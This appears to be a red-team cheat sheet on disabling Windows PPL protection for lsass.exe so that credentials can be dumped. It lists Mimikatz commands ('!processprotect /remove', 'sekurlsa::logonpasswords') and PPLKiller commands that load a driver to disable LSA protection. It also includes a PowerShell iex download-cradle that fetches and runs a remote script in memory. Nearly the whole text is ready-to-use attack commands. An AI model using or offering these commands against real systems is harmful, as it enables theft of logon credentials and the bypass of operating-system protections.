 # Disabling PPL Protections

## Mimikatz
```
Token::elevate
Privilege::Debug
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

Restore Protection
```
!processprotect /process:lsass.exe
!-
```

## PPLKiller

URL: https://github.com/RedCursorSecurityConsulting/PPLKiller

```powershell
# Initiate
PPLKiller.exe /installDriver && PPLKiller.exe /disableLSAProtection

# Run Mimikatz
sekurlsa::logonpasswords

# Cleanup
PPLKiller.exe /uninstallDriver
```
## PPLKiller (C# Port)
URL: https://github.com/Leo4j/PPLKiller

```powershell
# Binary
.\PPLKiller.exe

# PowerShell
# Load into memory
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PPLKiller/refs/heads/main/Invoke-PPLKiller.ps1')

# Execute
Invoke-PPLKiller
```
